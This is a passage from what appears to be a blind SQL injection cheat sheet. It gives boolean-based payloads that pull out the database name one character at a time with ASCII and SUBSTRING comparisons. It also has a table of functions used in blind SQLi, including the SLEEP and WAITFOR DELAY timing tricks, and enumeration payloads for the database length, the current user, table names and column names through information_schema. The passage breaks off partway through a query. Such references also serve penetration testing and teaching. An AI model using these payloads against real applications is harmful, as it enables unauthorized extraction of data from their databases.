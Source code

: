 sql



`' AND ASCII(SUBSTRING((SELECT database()),1,1))=100 --` 

sql



`' AND ASCII(SUBSTRING((SELECT database()),1,1)) > 100 --` 

Use binary search or brute-force on ASCII values.

---

### 📚 Useful SQL Functions for Blind SQLi

|Function|Purpose|
|---|---|
|`SUBSTRING(str, pos, len)`|Extract substring|
|`ASCII(char)`|Convert char to ASCII|
|`SLEEP(seconds)`|Delay (MySQL)|
|`WAITFOR DELAY '0:0:5'`|Delay (MSSQL)|
|`LENGTH()` or `CHAR_LENGTH()`|Get length of string|
|`IF(condition, true, false)`|Conditional logic|
|`CASE WHEN THEN`|Alternative to IF|

---

### 🔎 Sample Enumeration Queries

#### 🧱 Current Database

sql



`' AND (SELECT LENGTH(DATABASE()))=6 --  ' AND SUBSTRING(DATABASE(),1,1)='m' --` 

#### 👥 Current User

sql



`' AND ASCII(SUBSTRING(USER(),1,1))=114 --  # 'r'`

#### 📋 Table Names

sql



`' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=DATABASE())=5 --  ' AND SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1),1,1)='u' --` 

#### 📦 Column Names

sql



`' AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT`


